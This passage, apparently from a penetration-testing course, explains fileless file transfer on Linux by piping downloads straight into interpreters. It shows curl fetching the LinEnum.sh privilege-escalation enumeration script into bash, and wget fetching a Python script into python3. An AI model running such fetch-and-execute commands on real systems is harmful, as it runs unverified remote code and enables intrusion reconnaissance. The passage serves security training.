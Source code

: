Because of the way Linux works and how [pipes operate](https://www.geeksforgeeks.org/piping-in-unix-or-linux/), most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

**Note:** Some payloads such as `mkfifo` write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload choosen it may create temporary files on the OS.

Let's take the `cURL` command we used, and instead of downloading LinEnum.sh, let's execute it directly using a pipe.

#### Fileless Download with cURL

Fileless Download with cURL

```shell-session
glack@htb[/htb]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

Similarly, we can download a Python script file from a web server and pipe it into the Python binary. Let's do that, this time using `wget`.

#### Fileless Download with wget

Fileless Download with wget

```shell-session
glack@htb[/htb]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```
